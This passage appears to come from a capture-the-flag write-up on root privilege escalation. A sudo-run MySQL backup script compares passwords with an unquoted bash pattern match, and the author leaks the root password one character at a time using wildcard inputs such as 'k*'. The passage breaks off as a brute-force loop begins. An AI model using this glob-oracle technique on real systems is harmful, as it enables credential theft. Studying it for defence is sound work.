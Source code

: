 ```
```
We are allowed to run a script as root. Depending on what we have control over, we might be able to achieve command execution as root. Reading the script:
```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```
The script will perform a backup as root. In the first section, we can see it stores a root cred as `DB_PASS`, then reads our input to compare the two strings. If they match, the backup proceeds. After tinkering with it for some time, I learn that entering a wildcard `*` will return a True value, suggesting the passwords match.
```
joshua@codify:~$ echo '*' | sudo /opt/scripts/mysql-backup.sh 

Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
<...SNIP...>
```
By abusing this wildcard, we can guess 1 letter at a time in the format of `<letter>*`. If the letter is correct, we will pass the check. For example, we can determine the first letter is `k` manually:
```
joshua@codify:~$ echo 'j*' | sudo /opt/scripts/mysql-backup.sh 

Password confirmation failed!
joshua@codify:~$ echo 'k*' | sudo /opt/scripts/mysql-backup.sh 

Password confirmed!
```
Now we know the first letter, we can begin guessing the second letter. Since this is a very tedious process, automation is pretty much necessary. To get the job done "quickly", i took 10 seconds to write down a rudimentary script in bash:
```bash
for i in {a..z}
```